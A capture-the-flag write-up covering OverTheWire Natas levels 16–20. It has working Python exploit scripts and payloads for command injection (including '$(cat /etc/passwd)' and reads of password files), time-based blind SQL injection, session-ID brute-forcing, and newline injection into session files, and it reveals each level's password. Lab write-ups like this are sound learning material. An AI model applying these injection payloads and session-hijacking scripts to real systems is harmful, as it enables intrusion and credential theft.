










## Natas16

### source code



### Vulnerability

The application passes user input directly to a shell command using `passthru()`.  
Although some characters are filtered, command substitution `$()` is not blocked, allowing command injection.

Example:

```
$(cat /etc/passwd)
```

Command executed on the server:

```
grep -i "$(cat /etc/passwd)" dictionary.txt
```

This allows execution of arbitrary commands.

### Exploit

The password for `natas17` is extracted character by character using `grep` prefix matching.

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

password = ""

while len(password) < 32:
    for c in chars:
        guess = password + c
        payload = f'anythings$(grep ^{guess} /etc/natas_webpass/natas17)'

        r = requests.post(url, data={"needle": payload}, auth=auth)

        if "anythings" not in r.text:
            password += c
            print("Found:", password)
            break

print("Final password:", password)
```



Password obtained:
<details> 
	<summary>Click to reveal password </summary> 
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC  
</details>

---

# Natas17

This level is similar to Natas15 but **no output is displayed**, making it a **time-based blind SQL injection**.

### Vulnerability

User input is directly inserted into a SQL query. Since the response does not show query results, the `SLEEP()` function is used to detect true conditions.

Example payload:

```
IF(BINARY SUBSTRING(password,1,1)="a", SLEEP(3), 0)
```

If the guessed character is correct, the server delays the response.

### Exploit Script

```python
import requests
import string
import time
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/"
auth = HTTPBasicAuth("natas17", "<natas17_password>")

chars = string.ascii_letters + string.digits
password = ""

for i in range(1, 33):
    for c in chars:

        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{i},1)="{c}", SLEEP(3), 0) -- '

        start = time.time()
        r = requests.post(url, data={"username": payload}, auth=auth)
        elapsed = time.time() - start

        if elapsed > 3:
            password += c
            print("Found:", password)
            break

print("Final password:", password)
```



Password obtained:
<details> 
	<summary>Click to reveal password </summary> 
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ  
</details>

---

# Natas18

### Vulnerability

The application uses PHP sessions, but session IDs are limited to **1–640**.  
This small range makes **session brute-forcing possible**.

An attacker can try every possible session ID and check if the session belongs to an admin.

### Exploit Script

```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas18.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth("natas18", "<password_natas18>")

for i in range(1, 641):

    cookies = {"PHPSESSID": str(i)}

    r = requests.post(
        url,
        data={"username": "admin", "password": "admin"},
        cookies=cookies,
        auth=auth
    )

    print("Trying session:", i)

    if "You are an admin" in r.text:
        print("\n[+] Admin session found:", i)
        print(r.text)
        break
```



Password obtained:
<details> 
	<summary>Click to reveal password </summary> 
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr  
</details>

---

# Natas19





### Vulnerability

Session IDs are no longer sequential numbers.  
However, the session cookie contains a **hex-encoded value** representing:

```
<number>-admin
```

Example:

```
45-admin
```

Encoded as:

```
34352d61646d696e
```

This allows brute-forcing admin sessions by encoding `<number>-admin`.

### Exploit Script

```python
import requests
import binascii
from requests.auth import HTTPBasicAuth

url = "http://natas19.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth("natas19", "<natas19_password>")

for i in range(1, 641):

    session = f"{i}-admin"
    hex_session = binascii.hexlify(session.encode()).decode()

    cookies = {"PHPSESSID": hex_session}

    r = requests.get(url, cookies=cookies, auth=auth)

    print("Trying:", session)

    if "You are an admin" in r.text:
        print("\n[+] Admin session found:", session)
        print(r.text)
        break
```



Password obtained:
<details> 
	<summary>Click to reveal password </summary> 
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw  
</details>

---

# Natas20



### Vulnerability

The application stores session data in a file using the format:

```
key value
```

Example session file:

```
name user
admin 0
```

The `name` parameter is written directly into the session file.  
Because the session parser reads each line separately, inserting a newline allows creation of a new session variable.

### Exploit

Send the following payload:

```
name=test%0Aadmin%201
```

Decoded payload:

```
test
admin 1
```

This creates a new session variable:

```
admin 1
```

which grants admin access.



After sending the payload, the session file contains:

```
name test
admin 1
```

The application now treats the user `test` as an administrator.



Credentials for the next level are revealed.
<details> 
	<summary>Click to reveal password </summary> 
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH  
</details>


---
## 🧑‍💻 Author

Ghost -  Cyber-security Learner & CTF Player
